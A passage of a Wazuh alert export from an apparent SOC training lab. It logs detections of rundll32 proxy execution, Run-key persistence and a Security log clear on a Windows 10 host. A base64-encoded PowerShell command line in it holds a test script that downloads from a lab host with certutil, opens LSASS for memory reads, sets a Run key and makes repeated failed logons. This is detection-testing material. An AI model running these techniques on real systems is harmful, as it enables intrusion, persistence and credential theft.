AZQBzAHMAIAAoADAAeAAxADAAMQAwACAAUABSAE8AQwBFAFMAUwBfAFYATQBfAFIARQBBAEQAIAB8ACAAUABSAE8AQwBFAFMAUwBfAFEAVQBFAFIAWQBfAEwASQBNAEkAVABFAEQAXwBJAE4ARgBPAFIATQBBAFQASQBPAE4AKQAKACQAYwBvAGQAZQAgAD0AIABAACIACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQA7AAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMAOwAKAHAAdQBiAGwAaQBjACAAYwBsAGEAcwBzACAATABzAGEAcwBzAFQAZQBzAHQAIAB7AAoAIAAgACAAIABbAEQAbABsAEkAbQBwAG8AcgB0ACgAIgBrAGUAcgBuAGUAbAAzADIALgBkAGwAbAAiACwAIABTAGUAdABMAGEAcwB0AEUAcgByAG8AcgAgAD0AIAB0AHIAdQBlACkAXQAKACAAIAAgACAAcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAASQBuAHQAUAB0AHIAIABPAHAAZQBuAFAAcgBvAGMAZQBzAHMAKAB1AGkAbgB0ACAAZAB3AEQAZQBzAGkAcgBlAGQAQQBjAGMAZQBzAHMALAAgAGIAbwBvAGwAIABiAEkAbgBoAGUAcgBpAHQASABhAG4AZABsAGUALAAgAGkAbgB0ACAAZAB3AFAAcgBvAGMAZQBzAHMASQBkACkAOwAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABDAGwAbwBzAGUASABhAG4AZABsAGUAKABJAG4AdABQAHQAcgAgAGgATwBiAGoAZQBjAHQAKQA7AAoAfQAKACIAQAAKAEEAZABkAC0AVAB5AHAAZQAgAC0AVAB5AHAAZQBEAGUAZgBpAG4AaQB0AGkAbwBuACAAJABjAG8AZABlAAoAJABsAHMAYQBzAHMAUABpAGQAIAA9ACAAKABHAGUAdAAtAFAAcgBvAGMAZQBzAHMAIABsAHMAYQBzAHMAKQAuAEkAZAAKACQAaAAgAD0AIABbAEwAcwBhAHMAcwBUAGUAcwB0AF0AOgA6AE8AcABlAG4AUAByAG8AYwBlAHMAcwAoADAAeAAxADAAMQAwACwAIAAkAGYAYQBsAHMAZQAsACAAJABsAHMAYQBzAHMAUABpAGQAKQAKAFcAcgBpAHQAZQAtAE8AdQB0AHAAdQB0ACAAIgBPAHAAZQBuAGUAZAAgAGwAcwBhAHMAcwAgAFAASQBEACAAJABsAHMAYQBzAHMAUABpAGQAIABoAGEAbgBkAGwAZQA9ACQAaAAiAAoAaQBmACAAKAAkAGgAIAAtAG4AZQAgAFsASQBuAHQAUAB0AHIAXQA6ADoAWgBlAHIAbwApACAAewAgAFsATABzAGEAcwBzAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJABoACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAAoAIwAgADYALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANwAgACsAIAAxADAAMAAyADAAMAA6ACAANQAgAGYAYQBpAGwAZQBkACAAbABvAGcAbwBuAHMAIAAoADQANgAyADUAKQAgAGYAbwBsAGwAbwB3AGUAZAAgAGIAeQAgADEAIABzAHUAYwBjAGUAcwBzAGYAdQBsACAAbABvAGcAbwBuACAAKAA0ADYAMgA0ACkAIABmAG8AcgAgAHUAcwBlAHIAIAAnAHMAbwBjACcACgAkAGwAbwBnAG8AbgBDAG8AZABlACAAPQAgAEAAIgAKAHUAcwBpAG4AZwAgAFMAeQBzAHQAZQBtADsACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQAuAFIAdQBuAHQAaQBtAGUALgBJAG4AdABlAHIAbwBwAFMAZQByAHYAaQBjAGUAcwA7AAoAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABBAGQAdgBhAHAAaQBUAGUAcwB0ACAAewAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAYQBkAHYAYQBwAGkAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQAsACAAQwBoAGEAcgBTAGUAdAAgAD0AIABDAGgAYQByAFMAZQB0AC4AVQBuAGkAYwBvAGQAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABMAG8AZwBvAG4AVQBzAGUAcgAoAHMAdAByAGkAbgBnACAAbABwAHMAegBVAHMAZQByAG4AYQBtAGUALAAgAHMAdAByAGkAbgBnACAAbABwAHMAegBEAG8AbQBhAGkAbgAsACAAcwB0AHIAaQBuAGcAIABsAHAAcwB6AFAAYQBzAHMAdwBvAHIAZAAsAAoAIAAgACAAIAAgACAAIAAgAGkAbgB0ACAAZAB3AEwAbwBnAG8AbgBUAHkAcABlACwAIABpAG4AdAAgAGQAdwBMAG8AZwBvAG4AUAByAG8AdgBpAGQAZQByACwAIABvAHUAdAAgAEkAbgB0AFAAdAByACAAcABoAFQAbwBrAGUAbgApADsACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAuAGQAbABsACIALAAgAFMAZQB0AEwAYQBzAHQARQByAHIAbwByACAAPQAgAHQAcgB1AGUAKQBdAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABiAG8AbwBsACAAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgASQBuAHQAUAB0AHIAIABoAE8AYgBqAGUAYwB0ACkAOwAKAH0ACgAiAEAACgBBAGQAZAAtAFQAeQBwAGUAIAAtAFQAeQBwAGUARABlAGYAaQBuAGkAdABpAG8AbgAgACQAbABvAGcAbwBuAEMAbwBkAGUACgBmAG8AcgAgACgAJABpACAAPQAgADEAOwAgACQAaQAgAC0AbABlACAANgA7ACAAJABpACsAKwApACAAewAKACAAIAAgACAAJAB0AG8AawAgAD0AIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8ACgAgACAAIAAgAFsAQQBkAHYAYQBwAGkAVABlAHMAdABdADoAOgBMAG8AZwBvAG4AVQBzAGUAcgAoACIAcwBvAGMAIgAsACAAIgBXAGkAbgAxADAAIgAsACAAIgBXAHIAbwBuAGcAUABhAHMAcwAxADIAMwAhACIALAAgADMALAAgADAALAAgAFsAcgBlAGYAXQAkAHQAbwBrACkAIAB8ACAATwB1AHQALQBOAHUAbABsAAoAfQAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADMACgAkAHQAbwBrAEcAbwBvAGQAIAA9ACAAWwBJAG4AdABQAHQAcgBdADoAOgBaAGUAcgBvAAoAJABvAGsAIAA9ACAAWwBBAGQAdgBhAHAAaQBUAGUAcwB0AF0AOgA6AEwAbwBnAG8AbgBVAHMAZQByACgAIgBzAG8AYwAiACwAIAAiAFcAaQBuADEAMAAiACwAIAAiAFMAbwBjAEwAYQBiACEAMgAwADIANgAiACwAIAAzACwAIAAwACwAIABbAHIAZQBmAF0AJAB0AG8AawBHAG8AbwBkACkACgBXAHIAaQB0AGUALQBPAHUAdABwAHUAdAAgACIATABvAGcAbwBuAFUAcwBlAHIAIABzAHUAYwBjAGUAcwBzAD0AJABvAGsAIgAKAGkAZgAgACgAJAB0AG8AawBHAG8AbwBkACAALQBuAGUAIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8AKQAgAHsAIABbAEEAZAB2AGEAcABpAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJAB0AG8AawBHAG8AbwBkACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAA==\r\nParentUser: WIN10\\soc\""
      },
      "eventdata": {
        "utcTime": "2026-10-19 18:43:33.205",
        "processGuid": "{659b395a-64d5-6ad6-5f04-000000000300}",
        "processId": "9796",
        "image": "C:\\\\Windows\\\\System32\\\\rundll32.exe",
        "fileVersion": "10.0.26100.1591 (WinBuild.160101.0800)",
        "description": "Windows host process (Rundll32)",
        "product": "Microsoft\u00ae Windows\u00ae Operating System",
        "company": "Microsoft Corporation",
        "originalFileName": "RUNDLL32.EXE",
        "commandLine": "\\\"C:\\\\WINDOWS\\\\system32\\\\rundll32.exe\\\" url.dll,FileProtocolHandler calc.exe",
        "currentDirectory": "C:\\\\Users\\\\soc\\\\",
        "user": "WIN10\\\\soc",
        "logonGuid": "{659b395a-64cf-6ad6-935b-e60000000000}",
        "logonId": "0xe65b93",
        "terminalSessionId": "0",
        "integrityLevel": "High",
        "hashes": "MD5=025B13BF5652712D9B596E6766A9C386,SHA256=4B84DC6750937EB47B19CDE0D23DEBD4D2F2211300171B36D13EF5AD11DD60F9,IMPHASH=E3165C22028490334195CBDFA2962AA1",
        "parentProcessGuid": "{659b395a-64d0-6ad6-5904-000000000300}",
        "parentProcessId": "2604",
        "parentImage": "C:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe",
        "parentCommandLine": "powershell  -NoProfile -EncodedCommand CgBOAGUAdwAtAEkAdABlAG0AIAAtAEkAdABlAG0AVAB5AHAAZQAgAEQAaQByAGUAYwB0AG8AcgB5ACAALQBQAGEAdABoACAAQwA6AFwAVABlAG0AcAAgAC0ARgBvAHIAYwBlACAAfAAgAE8AdQB0AC0ATgB1AGwAbAAKAAoAIwAgADEALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANQA6ACAAUABvAHcAZQByAFMAaABlAGwAbAAgAGUAbgBjAG8AZABlAGQAIABjAG8AbQBtAGEAbgBkAAoAJABwADEAIAA9ACAAIgBwAG8AdwBlAHIAIgAgACsAIAAiAHMAaABlAGwAbAAuAGUAeABlACIACgAkAGEAMQAgAD0AIAAiAC0ATgBvAFAAcgBvAGYAaQBsAGUAIAAtACIAIAArACAAIgBlAG4AYwAgAGQAdwBCAG8AQQBHADgAQQBZAFEAQgB0AEEARwBrAEEAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAxACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAxACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAyAC4AIABSAHUAbABlACAAMQAwADAAMAAxADMAOgAgAGMAZQByAHQAdQB0AGkAbAAgAGQAbwB3AG4AbABvAGEAZAAKACQAcAAyACAAPQAgACIAYwBlAHIAdAAiACAAKwAgACIAdQB0AGkAbAAuAGUAeABlACIACgAkAGEAMgAgAD0AIAAiAC0AIgAgACsAIAAiAHUAcgBsAGMAYQBjAGgAZQAgAC0AZgAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADkAOQAuADQAMAAvACAAQwA6AFwAVABlAG0AcAAHAC4AdAB4AHQAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAyACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAyACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAzAC4AIABSAHUAbABlACAAMQAwADAAMgAwADUAOgAgAHIAdQBuAGQAbABsADMAMgAgAHAAcgBvAHgAeQAgAGUAeABlAGMAdQB0AGkAbwBuAAoAJABwADMAIAA9ACAAIgByAHUAbgAiACAAKwAgACIAZABsAGwAMwAyAC4AZQB4AGUAIgAKACQAYQAzACAAPQAgACIAdQByAGwALgBkAGwAbAAsAEYAaQBsAGUAIgAgACsAIAAiAFAAcgBvAHQAbwBjAG8AbABIAGEAbgBkAGwAZQByACAAYwBhAGwAYwAuAGUAeABlACIACgBTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAkAHAAMwAgAC0AQQByAGcAdQBtAGUAbgB0AEwAaQBzAHQAIAAkAGEAMwAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADEACgAKACMAIAA0AC4AIABSAHUAbABlACAAMQAwADAAMgAwADYAOgAgAFIAZQBnAGkAcwB0AHIAeQAgAFIAdQBuACAAawBlAHkAIABwAGUAcgBzAGkAcwB0AGUAbgBjAGUACgByAGUAZwAuAGUAeABlACAAYQBkAGQAIAAiAEgASwBDAFUAXABTAG8AZgB0AHcAYQByAGUAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABDAHUAcgByAGUAbgB0AFYAZQByAHMAaQBvAG4AXABSAHUAbgAiACAALwB2ACAAVAAgAC8AZAAgACIAYwBhAGwAYwAuAGUAeABlACIAIAAvAGYACgBTAHQAYQByAHQALQBTAGwAZQBlAHAAIAAtAFMAZQBjAG8AbgBkAHMAIAAxAAoAcgBlAGcALgBlAHgAZQAgAGQAZQBsAGUAdABlACAAIgBIAEsAQwBVAFwAUwBvAGYAdAB3AGEAcgBlAFwATQBpAGMAcgBvAHMAbwBmAHQAXABXAGkAbgBkAG8AdwBzAFwAQwB1AHIAcgBlAG4AdABWAGUAcgBzAGkAbwBuAFwAUgB1AG4AIgAgAC8AdgAgAFQAIAAvAGYACgAKACMAIAA1AC4AIABSAHUAbABlACAAMQAwADAAMgAwADEAOgAgAEwAUwBBAFMAUwAgAG0AZQBtAG8AcgB5ACAAYQBjAGMAZQBzAHMAIAAoADAAeAAxADAAMQAwACAAUABSAE8AQwBFAFMAUwBfAFYATQBfAFIARQBBAEQAIAB8ACAAUABSAE8AQwBFAFMAUwBfAFEAVQBFAFIAWQBfAEwASQBNAEkAVABFAEQAXwBJAE4ARgBPAFIATQBBAFQASQBPAE4AKQAKACQAYwBvAGQAZQAgAD0AIABAACIACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQA7AAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMAOwAKAHAAdQBiAGwAaQBjACAAYwBsAGEAcwBzACAATABzAGEAcwBzAFQAZQBzAHQAIAB7AAoAIAAgACAAIABbAEQAbABsAEkAbQBwAG8AcgB0ACgAIgBrAGUAcgBuAGUAbAAzADIALgBkAGwAbAAiACwAIABTAGUAdABMAGEAcwB0AEUAcgByAG8AcgAgAD0AIAB0AHIAdQBlACkAXQAKACAAIAAgACAAcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAASQBuAHQAUAB0AHIAIABPAHAAZQBuAFAAcgBvAGMAZQBzAHMAKAB1AGkAbgB0ACAAZAB3AEQAZQBzAGkAcgBlAGQAQQBjAGMAZQBzAHMALAAgAGIAbwBvAGwAIABiAEkAbgBoAGUAcgBpAHQASABhAG4AZABsAGUALAAgAGkAbgB0ACAAZAB3AFAAcgBvAGMAZQBzAHMASQBkACkAOwAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABDAGwAbwBzAGUASABhAG4AZABsAGUAKABJAG4AdABQAHQAcgAgAGgATwBiAGoAZQBjAHQAKQA7AAoAfQAKACIAQAAKAEEAZABkAC0AVAB5AHAAZQAgAC0AVAB5AHAAZQBEAGUAZgBpAG4AaQB0AGkAbwBuACAAJABjAG8AZABlAAoAJABsAHMAYQBzAHMAUABpAGQAIAA9ACAAKABHAGUAdAAtAFAAcgBvAGMAZQBzAHMAIABsAHMAYQBzAHMAKQAuAEkAZAAKACQAaAAgAD0AIABbAEwAcwBhAHMAcwBUAGUAcwB0AF0AOgA6AE8AcABlAG4AUAByAG8AYwBlAHMAcwAoADAAeAAxADAAMQAwACwAIAAkAGYAYQBsAHMAZQAsACAAJABsAHMAYQBzAHMAUABpAGQAKQAKAFcAcgBpAHQAZQAtAE8AdQB0AHAAdQB0ACAAIgBPAHAAZQBuAGUAZAAgAGwAcwBhAHMAcwAgAFAASQBEACAAJABsAHMAYQBzAHMAUABpAGQAIABoAGEAbgBkAGwAZQA9ACQAaAAiAAoAaQBmACAAKAAkAGgAIAAtAG4AZQAgAFsASQBuAHQAUAB0AHIAXQA6ADoAWgBlAHIAbwApACAAewAgAFsATABzAGEAcwBzAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJABoACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAAoAIwAgADYALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANwAgACsAIAAxADAAMAAyADAAMAA6ACAANQAgAGYAYQBpAGwAZQBkACAAbABvAGcAbwBuAHMAIAAoADQANgAyADUAKQAgAGYAbwBsAGwAbwB3AGUAZAAgAGIAeQAgADEAIABzAHUAYwBjAGUAcwBzAGYAdQBsACAAbABvAGcAbwBuACAAKAA0ADYAMgA0ACkAIABmAG8AcgAgAHUAcwBlAHIAIAAnAHMAbwBjACcACgAkAGwAbwBnAG8AbgBDAG8AZABlACAAPQAgAEAAIgAKAHUAcwBpAG4AZwAgAFMAeQBzAHQAZQBtADsACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQAuAFIAdQBuAHQAaQBtAGUALgBJAG4AdABlAHIAbwBwAFMAZQByAHYAaQBjAGUAcwA7AAoAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABBAGQAdgBhAHAAaQBUAGUAcwB0ACAAewAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAYQBkAHYAYQBwAGkAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQAsACAAQwBoAGEAcgBTAGUAdAAgAD0AIABDAGgAYQByAFMAZQB0AC4AVQBuAGkAYwBvAGQAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABMAG8AZwBvAG4AVQBzAGUAcgAoAHMAdAByAGkAbgBnACAAbABwAHMAegBVAHMAZQByAG4AYQBtAGUALAAgAHMAdAByAGkAbgBnACAAbABwAHMAegBEAG8AbQBhAGkAbgAsACAAcwB0AHIAaQBuAGcAIABsAHAAcwB6AFAAYQBzAHMAdwBvAHIAZAAsAAoAIAAgACAAIAAgACAAIAAgAGkAbgB0ACAAZAB3AEwAbwBnAG8AbgBUAHkAcABlACwAIABpAG4AdAAgAGQAdwBMAG8AZwBvAG4AUAByAG8AdgBpAGQAZQByACwAIABvAHUAdAAgAEkAbgB0AFAAdAByACAAcABoAFQAbwBrAGUAbgApADsACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAuAGQAbABsACIALAAgAFMAZQB0AEwAYQBzAHQARQByAHIAbwByACAAPQAgAHQAcgB1AGUAKQBdAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABiAG8AbwBsACAAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgASQBuAHQAUAB0AHIAIABoAE8AYgBqAGUAYwB0ACkAOwAKAH0ACgAiAEAACgBBAGQAZAAtAFQAeQBwAGUAIAAtAFQAeQBwAGUARABlAGYAaQBuAGkAdABpAG8AbgAgACQAbABvAGcAbwBuAEMAbwBkAGUACgBmAG8AcgAgACgAJABpACAAPQAgADEAOwAgACQAaQAgAC0AbABlACAANgA7ACAAJABpACsAKwApACAAewAKACAAIAAgACAAJAB0AG8AawAgAD0AIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8ACgAgACAAIAAgAFsAQQBkAHYAYQBwAGkAVABlAHMAdABdADoAOgBMAG8AZwBvAG4AVQBzAGUAcgAoACIAcwBvAGMAIgAsACAAIgBXAGkAbgAxADAAIgAsACAAIgBXAHIAbwBuAGcAUABhAHMAcwAxADIAMwAhACIALAAgADMALAAgADAALAAgAFsAcgBlAGYAXQAkAHQAbwBrACkAIAB8ACAATwB1AHQALQBOAHUAbABsAAoAfQAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADMACgAkAHQAbwBrAEcAbwBvAGQAIAA9ACAAWwBJAG4AdABQAHQAcgBdADoAOgBaAGUAcgBvAAoAJABvAGsAIAA9ACAAWwBBAGQAdgBhAHAAaQBUAGUAcwB0AF0AOgA6AEwAbwBnAG8AbgBVAHMAZQByACgAIgBzAG8AYwAiACwAIAAiAFcAaQBuADEAMAAiACwAIAAiAFMAbwBjAEwAYQBiACEAMgAwADIANgAiACwAIAAzACwAIAAwACwAIABbAHIAZQBmAF0AJAB0AG8AawBHAG8AbwBkACkACgBXAHIAaQB0AGUALQBPAHUAdABwAHUAdAAgACIATABvAGcAbwBuAFUAcwBlAHIAIABzAHUAYwBjAGUAcwBzAD0AJABvAGsAIgAKAGkAZgAgACgAJAB0AG8AawBHAG8AbwBkACAALQBuAGUAIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8AKQAgAHsAIABbAEEAZAB2AGEAcABpAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJAB0AG8AawBHAG8AbwBkACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAA==",
        "parentUser": "WIN10\\\\soc"
      }
    }
  },
  "location": "EventChannel"
}
```

---

### Rule `100206` — SOC-100206 [T1547.001]: Registry Run/RunOnce persistence value set at HKU\\S-1-5-21-2093812193-1135278953-2291312261-1000\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\T -> calc.exe by C:\\WINDOWS\\system32\\reg.exe

```json
{
  "timestamp": "2026-10-19T18:43:34.422+0000",
  "rule": {
    "level": 9,
    "description": "SOC-100206 [T1547.001]: Registry Run/RunOnce persistence value set at HKU\\\\S-1-5-21-2093812193-1135278953-2291312261-1000\\\\Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Run\\\\T -> calc.exe by C:\\\\WINDOWS\\\\system32\\\\reg.exe",
    "id": "100206",
    "mitre": {
      "id": [
        "T1547.001"
      ],
      "tactic": [
        "Persistence",
        "Privilege Escalation"
      ],
      "technique": [
        "Registry Run Keys / Startup Folder"
      ]
    },
    "firedtimes": 1,
    "mail": false,
    "groups": [
      "local",
      "soc_capstone",
      "persistence",
      "registry_run_key"
    ]
  },
  "agent": {
    "id": "002",
    "name": "Win10",
    "ip": "192.168.99.30"
  },
  "manager": {
    "name": "wazuh.manager"
  },
  "id": "1792435414.10413649",
  "full_log": "{\"win\":{\"system\":{\"providerName\":\"Microsoft-Windows-Sysmon\",\"providerGuid\":\"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}\",\"eventID\":\"13\",\"version\":\"2\",\"level\":\"4\",\"task\":\"13\",\"opcode\":\"0\",\"keywords\":\"0x8000000000000000\",\"systemTime\":\"2026-10-19T18:43:34.4795368Z\",\"eventRecordID\":\"3294\",\"processID\":\"6932\",\"threadID\":\"2332\",\"channel\":\"Microsoft-Windows-Sysmon/Operational\",\"computer\":\"Win10\",\"severityValue\":\"INFORMATION\",\"message\":\"\\\"Registry value set:\\r\\nRuleName: T1060,RunKey\\r\\nEventType: SetValue\\r\\nUtcTime: 2026-10-19 18:43:34.478\\r\\nProcessGuid: {659b395a-64d6-6ad6-6404-000000000300}\\r\\nProcessId: 1064\\r\\nImage: C:\\\\WINDOWS\\\\system32\\\\reg.exe\\r\\nTargetObject: HKU\\\\S-1-5-21-2093812193-1135278953-2291312261-1000\\\\Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Run\\\\T\\r\\nDetails: calc.exe\\r\\nUser: WIN10\\\\soc\\\"\"},\"eventdata\":{\"ruleName\":\"T1060,RunKey\",\"eventType\":\"SetValue\",\"utcTime\":\"2026-10-19 18:43:34.478\",\"processGuid\":\"{659b395a-64d6-6ad6-6404-000000000300}\",\"processId\":\"1064\",\"image\":\"C:\\\\\\\\WINDOWS\\\\\\\\system32\\\\\\\\reg.exe\",\"targetObject\":\"HKU\\\\\\\\S-1-5-21-2093812193-1135278953-2291312261-1000\\\\\\\\Software\\\\\\\\Microsoft\\\\\\\\Windows\\\\\\\\CurrentVersion\\\\\\\\Run\\\\\\\\T\",\"details\":\"calc.exe\",\"user\":\"WIN10\\\\\\\\soc\"}}}",
  "decoder": {
    "name": "windows_eventchannel"
  },
  "data": {
    "win": {
      "system": {
        "providerName": "Microsoft-Windows-Sysmon",
        "providerGuid": "{5770385f-c22a-43e0-bf4c-06f5698ffbd9}",
        "eventID": "13",
        "version": "2",
        "level": "4",
        "task": "13",
        "opcode": "0",
        "keywords": "0x8000000000000000",
        "systemTime": "2026-10-19T18:43:34.4795368Z",
        "eventRecordID": "3294",
        "processID": "6932",
        "threadID": "2332",
        "channel": "Microsoft-Windows-Sysmon/Operational",
        "computer": "Win10",
        "severityValue": "INFORMATION",
        "message": "\"Registry value set:\r\nRuleName: T1060,RunKey\r\nEventType: SetValue\r\nUtcTime: 2026-10-19 18:43:34.478\r\nProcessGuid: {659b395a-64d6-6ad6-6404-000000000300}\r\nProcessId: 1064\r\nImage: C:\\WINDOWS\\system32\\reg.exe\r\nTargetObject: HKU\\S-1-5-21-2093812193-1135278953-2291312261-1000\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\T\r\nDetails: calc.exe\r\nUser: WIN10\\soc\""
      },
      "eventdata": {
        "ruleName": "T1060,RunKey",
        "eventType": "SetValue",
        "utcTime": "2026-10-19 18:43:34.478",
        "processGuid": "{659b395a-64d6-6ad6-6404-000000000300}",
        "processId": "1064",
        "image": "C:\\\\WINDOWS\\\\system32\\\\reg.exe",
        "targetObject": "HKU\\\\S-1-5-21-2093812193-1135278953-2291312261-1000\\\\Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Run\\\\T",
        "details": "calc.exe",
        "user": "WIN10\\\\soc"
      }
    }
  },
  "location": "EventChannel"
}
```

---

### Rule `100207` — SOC-100207 [T1685.005]: Windows Event Log (Security) cleared (Event 1102) on Win10

```json
{
  "timestamp": "2026-10-19T18:52:16.445+0000",
  "rule": {
    "level": 12,
    "description": "SOC-100207 [T1685.005]: Windows Event Log (Security) cleared (Event 1102) on Win10",
    "id": "100207",
    "firedtimes": 1,
    "mail": true,
    "groups": [
      "local",
      "soc_capstone",
      "defense_impairment",
      "logs_cleared"
    ]
  },
  "agent": {
    "id": "002",
    "name": "Win10",
    "ip": "192.168.99.30"
  },
  "manager": {
    "name": "wazuh.manager"
  },
  "id": "1792435936.11665474",
  "full_log": "{\"win\":{\"system\":{\"providerName\":\"Microsoft-Windows-Eventlog\",\"providerGuid\":\"{fc65ddd8-d6ef-4962-83d5-6e5cfe9ce148}\",\"eventID\":\"1102\",\"version\":\"1\",\"level\":\"4\",\"task\":\"104\",\"opcode\":\"0\",\"keywords\":\"0x4020000000000000\",\"systemTime\":\"2026-10-19T18:52:16.7379356Z\",\"eventRecordID\":\"2902\",\"processID\":\"1688\",\"threadID\":\"8312\",\"channel\":\"Security\",\"computer\":\"Win10\",\"severityValue\":\"INFORMATION\",\"message\":\"\\\"The audit log was cleared.\\r\\nSubject:\\r\\n\\tSecurity ID:\\tS-1-5-21-2093812193-1135278953-2291312261-1000\\r\\n\\tAccount Name:\\tsoc\\r\\n\\tDomain Name:\\tWIN10\\r\\n\\tLogon ID:\\t0x1044E26\\\"\"},\"logFileCleared\":{\"subjectUserSid\":\"S-1-5-21-2093812193-1135278953-2291312261-1000\",\"subjectUserName\":\"soc\",\"subjectDomainName\":\"WIN10\",\"subjectLogonId\":\"0x1044e26\",\"clientProcessId\":\"4936\",\"clientProcessStartKey\":\"844424930133205\"}}}",
  "decoder": {
    "name": "windows_eventchannel"
  },
  "data": {
    "win": {
      "system": {
        "providerName": "Microsoft-Windows-Eventlog",
        "providerGuid": "{fc65ddd8-d6ef-4962-83d5-6e5cfe9ce148}",
        "eventID": "1102",
        "version": "1",
        "level": "4",
        "task": "104",
        "opcode": "0",
        "keywords": "0x4020000000000000",
        "systemTime": "2026-10-19T18:52:16.7379356Z",
        "eventRecordID": "2902",
        "processID": "1688",
        "threadID": "8312",
        "channel": "Security",
        "computer": "Win10",
        "severityValue": "INFORMATION",
        "message": "\"The audit log was cleared.\r\nSubject:\r\n\tSecurity ID:\tS-1-5-21-2093812193-1135278953-2291312261-1000\r\n\tAccount Name:\tsoc\r\n\tDomain Name:\tWIN10\r\n\tLogon ID:\t0x1044E26\""
      },
      "logFileCleared": {
        "subjectUserSid": "S-1-5-21-2093812193-1135278953-2291312261-1000",
        "subjectUserName": "soc",
        "subjectDomainName": "WIN10",
        "subjectLogonId": "0x1044e26",
        "clientProcessId": "4936",
        "clientProcessStartKey": "844424930133205"
      }
    }
  },
